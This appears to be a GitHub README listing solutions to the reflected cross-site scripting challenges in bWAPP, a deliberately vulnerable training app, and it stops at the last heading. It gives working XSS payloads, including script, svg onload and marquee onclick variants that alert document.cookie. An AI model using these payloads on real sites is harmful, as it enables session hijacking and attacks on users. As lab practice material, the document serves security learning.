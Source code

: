 # XSS-BWAPP-SOLUTION
Welcome to the repository of comprehensive solutions for bWAPP's Cross-Site Scripting (XSS) challenges, meticulously curated and solved by BugBot19 (Nihar Rathod). This repository serves as a one-stop resource for anyone looking to understand and solve XSS vulnerabilities in the bWAPP (Buggy Web Application) framework.

A3-Cross-Site-Scripting

XSS - Reflected (GET)(LOW)
Payload- <script>alert(document.cookie)</script>(can be inserted in both parameter Firstname and lastname)
XSS - Reflected (GET)(MEDIUM)
Payload- <svg onload=alert(document.cookie)>(Can be inserted in both the parameter Firstname and Lastname)
XSS - Reflected (GET)(High)
NYF
XSS - Reflected (POST)(Low)
Payload-<script>alert(document.cookie)</script>
XSS - Reflected (POST)(Medium)
Payload-<svg onload=alert(document.cookie)>
XSS - Reflected (POST)(High)
NYF
XSS - Reflected (JSON)(Low)
Payload - <marquee onclick=alert(document.cookie)>Click on me</marquee>
XSS - Reflected (JSON)(Medium)
Payload – NYF
XSS - Reflected (JSON)(High)
Payload – NYF
XSS - Reflected (AJAX/JSON)(Low/Medium)
Payload - <marquee onclick=alert(1)>Click!!!</marquee>
XSS - Reflected (AJAX/JSON)(High)
